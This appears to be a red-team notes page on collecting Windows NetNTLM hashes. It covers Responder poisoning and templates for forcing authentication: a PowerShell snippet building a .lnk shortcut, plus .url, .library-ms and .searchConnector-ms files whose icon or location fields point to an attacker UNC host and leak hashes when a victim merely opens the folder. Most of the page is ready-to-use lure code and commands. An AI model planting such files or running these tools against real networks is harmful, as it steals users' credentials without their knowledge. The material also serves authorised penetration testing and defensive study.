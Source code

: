 # Hash Collection

### Responder

Responder can usually be used if we control a linux machine with root privileges on the same network/subnet as the target system. It will try to spoof/poison in order to collect hashes over several protocols. A common attack technique responder automatically executes is LLMNR/NBTNS poisoning.

[https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)

```bash
python Responder.py -i <interface>
```

Make sure to edit the config file to specify which hosts to respond to as it might get messy responding to all hosts.

### Smbserver.py

### Forcing Authentication

#### Windows Shortcuts \(.lnk\)

Triggered on opening the containing folder in explorer.

```text
$cmd= 'Start-Process c:\windows\tasks\<payload>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encodedCommand = [Convert]::ToBase64String($cmd)
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("<targetpath>")
$link.windowstyle = "7"
$link.targetpath = "..."
$link.iconlocation = "\\<ip>@port\share\file"
$link.arguments = "<arguments>"
$link.save()
```

Or using crop from the [farmer-toolkit](https://github.com/mdsecactivebreach/Farmer).

#### URL files \(.url\)

Triggered on opening the containing folder in explorer.

```text
[InternetShortcut]
URL=test
WorkingDirectory=test
IconFile=\\\\ip@port\\%USERNAME%.icon
IconIndex=1
```

#### Windows Library Files \(.library-ms\)

Triggered on opening the containing folder in explorer.

```text
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\<ip>@<port>\\data</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

#### Windows Search Connectors \(.searchConnector-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\mdsec.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\<ip>@<port>\\data</url>
    </simpleLocation>
</searchConnectorDescription>
```

#### Autoupading links in Office Files

See [Fertilizer](https://github.com/mdsecactivebreach/Farmer). This is especially nice becauser no matter if the user clicks yes or no on the warning message, it will still send the hash.

#### Direct UNC Path Access

In case a webshell or similar exists we can just call an UNC path directly e.g.:

```text
\\<ip>\share\file
```

Note that if you want to actually have a successful authentication here to retrieve a file, null sessions must either be enabled on the victim \(which is not default\) or you need to have the correct user configured on your end \(the one windows is using to authenticate as\).

### References

[https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)

